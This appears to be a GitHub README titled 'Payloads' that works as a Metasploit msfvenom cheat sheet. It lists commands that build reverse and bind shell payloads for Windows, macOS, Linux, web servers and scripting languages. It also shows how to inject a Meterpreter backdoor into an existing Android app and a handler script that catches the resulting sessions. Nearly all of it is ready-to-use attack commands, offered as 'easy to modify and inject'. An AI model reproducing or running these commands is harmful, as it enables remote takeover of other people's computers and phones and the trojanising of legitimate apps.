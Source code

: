 # Payloads
Android and different os payloads easy to modify and inject

<h2>Cheetsheet Metasploit</h2>

Windows Payloads
Windows Meterpreter Reverse Shell

<pre><code> msfvenom -p windows/meterpreter/reverse_tcp lhost=ip-address lport=port -f exe > payload-name.exe </code></pre>

Windows Reverse Shell
<pre><code> msfvenom -p windows/shell/reverse_tcp lhost=ip-address lport=port -f exe > payload-name.exe </code></pre>

Windows Encoded Meterpreter Reverse Shell
<pre><code> msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 2 -f exe > payload-name.exe </code></pre>

Windows Meterpreter Reverse Shellcode
<pre><code> msfvenom -p windows/meterpreter/reverse_tcp lhost=ip-address lport=port -f < platform  </code></pre>

macOS Payloads
macOS Bind Shell
<pre><code> msfvenom -p osx/x86/shell_bind_tcp rhost=ip-address lport=port-f macho > payload-name.macho </code></pre>

macOS Reverse Shell
<pre><code> msfvenom -p osx/x86/shell_reverse_tcp lhost=ip-address lport=port -f macho > payload-name.macho </code></pre>

macOS Reverse TCP Shellcode
<pre><code> msfvenom -p osx/x86/shell_reverse_tcp lhost=ip-address lport=port -f < platform  </code></pre>

Linux Payloads
Linux Meterpreter TCP Reverse Shell
<pre><code> msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=ip-address lport=port -f elf > payload-name.elf </code></pre>

Linux Bind TCP Shell
<pre><code> msfvenom -p generic/shell_bind_tcp rhost=ip-address lport=port -f elf > payload-name.elf </code></pre>

Linux Bind Meterpreter TCP Shell
<pre><code> msfvenom -p linux/x86/meterpreter/bind_tcp rhost=ip-address lport=port -f elf > payload-name.elf </code></pre>

Linux Meterpreter Reverse Shellcode
<pre><code> msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=ip-address lport=port -f < platform  </code></pre>

Web-base Payloads
PHP Meterpreter Reverse Shell
<pre><code> msfvenom -p php/meterpreter_reverse_tcp lhost=ip-address LPORT=port -f raw > payload-name.php </code></pre>

JSP Java Meterpreter Reverse Shell
<pre><code> msfvenom -p java/jsp_shell_reverse_tcp lhost=ip-address lport=port -f raw > payload-name.jsp </code></pre>

ASP Meterpreter Reverse Shell
<pre><code> msfvenom -p windows/meterpreter/reverse_tcp lhost=ip-address lport=port -f asp > payload-nmae.asp </code></pre>

WAR Reverse TCP Shell
<pre><code> msfvenom -p java/jsp_shell_reverse_tcp lhost=ip-address lport=port -f war > payload-name.war </code></pre>

Script-Base Payloads
Perl Unix Reverse shell
<pre><code> msfvenom -p cmd/unix/reverse_perl lhost=ip-address lport=port -f raw > payload-name.pl </code></pre>

Bash Unix Reverse Shell
<pre><code> msfvenom -p cmd/unix/reverse_bash lhost=ip-address lport=port -f raw > payload-name.sh </code></pre>

Python Reverse Shell
<pre><code> msfvenom -p cmd/unix/reverse_python lhost=ip-address lport=port -f raw > payload-name.py </code></pre>

Android Payloads
Android Meterpreter reverse Payload
<pre><code> msfvenom -p android/meterpreter/reverse_tcp lhost=ip-address lport=port R > payload-name.apk </code></pre>

Android Bind Meterpreter Payload
<pre><code> msfvenom -x app.apk -p android/meterpreter/reverse_tcp lhost=192.168.1.10 lport=4444 -o out.apk </code></pre>
<pre><code>msfvenom --platform android --arch dalvik -x myApp.apk -p android/meterpreter/reverse_tcp LHOST=192.168** LPORT=7777 -o build.apk</code></pre>

#Save AS explort.rc
Run command 


<pre><code>
# msfconsole -q -r 'export.rc'
# nano export.r
use exploit/multi/handler
set PAYLOAD android/meterpreter/reverse_tcp
set LHOST 192.168.1.5
set LPORT 5576
set ExitOnSession false
set EnableStageEncoding true
run -j
</code></pre>

..........................................<a href="https://uk2blogger.blogspot.com/2021/03/best-way-to-generate-metasploit.html">read more</a>


